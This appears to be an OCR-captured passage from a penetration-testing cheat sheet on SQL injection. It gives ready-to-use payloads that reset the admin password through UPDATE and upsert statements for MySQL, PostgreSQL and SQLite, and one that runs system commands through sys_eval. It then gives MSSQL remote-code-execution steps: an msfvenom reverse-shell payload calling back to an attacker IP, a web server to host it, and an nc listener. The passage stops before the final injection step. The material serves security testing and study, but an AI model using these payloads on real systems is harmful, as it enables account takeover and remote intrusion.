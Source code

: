 ### Update Arbitrary Data

```html
' UPDATE users SET password='password123' WHERE username='admin'-- -
' UPDATE users SET password='password123' WHERE id=1-- -
```

### Upsert

This is a combination of **`UPDATE`** and **`INSERT`** operation. If a particular row already exists, it will be updated with new values. Here are examples that update password for the existing **`admin`** user.

```html
<!-- MySQL -->
INSERT INTO users (username, password) VALUES('admin', '') ON DUPLICATE KEY UPDATE password=''-- -

<!-- PostgreSQL, SQLite -->
INSERT INTO users (username, password) VALUES ('admin', '') ON CONFLICT (username) DO UPDATE SET password='password'--
```

<br />

## Command Injection

```text
' UNION SELECT NULL,sys_eval('whoami') FROM users-- -
```

<br />

## RCE

### MSSQL

1. In attack machine, prepare a payload for reverse shell.

Replace the ip address of `LHOST` with your ip.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o shell.exe
```

2. In attack machine, start a local web server to host the payload file.

```bash
python3 -m http.server 8000
```

3. In attack machine, start a listener to receiver incoming connection.

```bash
nc -lvnp 4444
```

4. In target website, execute the shell command with SQLi.

